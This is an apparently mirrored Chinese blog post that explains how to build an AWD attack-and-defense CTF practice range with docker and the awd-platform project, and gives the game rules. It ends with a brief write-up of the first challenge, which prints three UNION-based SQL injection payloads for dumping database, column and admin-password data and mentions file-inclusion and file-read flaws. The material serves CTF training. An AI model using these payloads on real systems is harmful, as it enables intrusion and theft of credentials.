<!--yml
category: 未分类
date: 2022-04-26 14:39:12
-->

# CTF AWD靶场搭建和第一题题解_星星明亮的博客-CSDN博客_awd靶场

> 来源：[https://blog.csdn.net/weixin_46578840/article/details/120870745](https://blog.csdn.net/weixin_46578840/article/details/120870745)

首先安装docker环境

添加GPG密钥并添加更新源

```
curl -fsSL https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/debian/gpg | sudo apt-key add -
echo 'deb https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/debian/ buster stable' | sudo tee /etc/apt/sources.list.d/docker.list 
```

更新系统并安装docker

```
apt-get update
apt-get install docker-ce 
```

安装docker-compose

```
apt-get install docker-compose 
```

启动docker

```
 service docker start 
```

AWD模型安装配置

下载

```
git clone https://github.com/zhl2008/awd-platform 
```

比赛的环境介绍：

服务器全部以docker形式部署在同一台虚拟机上。

检查服务器：
服务检查服务器，用于判定选手维护的服务是否可用，如果不可用，则会扣除相应的分数。不开启任何端口。需要与flag服务器通信。

标志服务器：
选手提交flag的服务器，并存储选手的分数。开启80端口。

网络服务器：
选手连接的服务器，选手需要对其进行维护，并尝试攻击其他队伍的机器。通常开启80端口，22端口，并将端口映射到主机。

比赛逻辑拓扑：


比赛入口服务器

比赛启动
1.根据当前队伍数量copy所有的队伍的比赛文件夹:

python batch.py web_dir team_number

```
例如：python batch.py web_server 5 
```

2.启动比赛：

python start.py ./ team_number

```
例如：python start.py ./ 5 
```

3.启动check脚本：

```
docker attach check_server
python check.py 
```

比赛参数

Flag 提交： 172.17.0.6:80/flag_file.php?token=teamx&flag=xxxx (x为你们的队伍号)
比赛规则(新）：

1.每个队伍分配到一个docker主机，给定ctf用户权限，通过制定的端口和密码进行连接；

2.每台docker主机上运行一个web服务或者其他的服务，需要选手保证其可用性，并尝试审计代码，攻击其他队伍；

3.比赛开始后，前30分钟，选手维护各自的主机，在这个阶段，所有的攻击和服务不可用不影响分数；

4.选手可以通过使用漏洞获取其他队伍的服务器的权限，读取他人服务器上的flag并提交到指定的flag服务器：

http://flag服务器IP :端口/fflag_file.php?token=队伍token&flag=获取到的flag 来获得相应的分数。

例如：flag server地址为8.8.8.8，端口为8080，队伍token为team1，flag为40ed892b93997142e46124516d0f5ac0，则请求http://8.8.8.8:8080/fflag_file.php?token=team1&flag=40ed892b93997142e46124516d0f5ac0来获得相应分数。

每次成功攻击可获得2分，被攻击者扣除2分；有效攻击两分钟一轮；

5.选手需要保证己方服务的可用性，每次服务不可用，扣除1分,服务可用，加1分；服务检测两分钟一轮；

6.选手可以从flag服务器上获取所有的攻击情况以及当前的分数：

攻击情况url地址： http://flag服务器IP :端口/result.txt

得分情况地址： http://flag服务器IP :端口/score.txt

**配置**
下载完成后进入目录

```
cd awd-platform 
```


下载docker镜像

```
sudo docker pull zhl2008/web_14.04

sudo docker tag zhl2008/web_14.04 web_14.04 
```

启动服务和脚本


```
python batch.py web_yunnan_simple 2 
```



```
python start.py ./ 2 
```


执行完会在当前目录下生成


端口映射规则

```
team1 ---- 8801
team3 ---- 8802
team3 ---- 8803 
```


SSH账号密码在awd-platform/pass.txt


解题过程
1，得到ssh账号密码后登录立马改密码
2，把源代码托下来审计

2，文件包含读flag

两处sql注入
payload

```
search.php?id=-1 union select 1,2,database() --+
search.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="test"%20 --+
search.php?id=-1 union select 1,2,user_pass form admin --+ 
```

任意文件读取
源码得到get传入参数，判断文件是否存在并取得其文件大小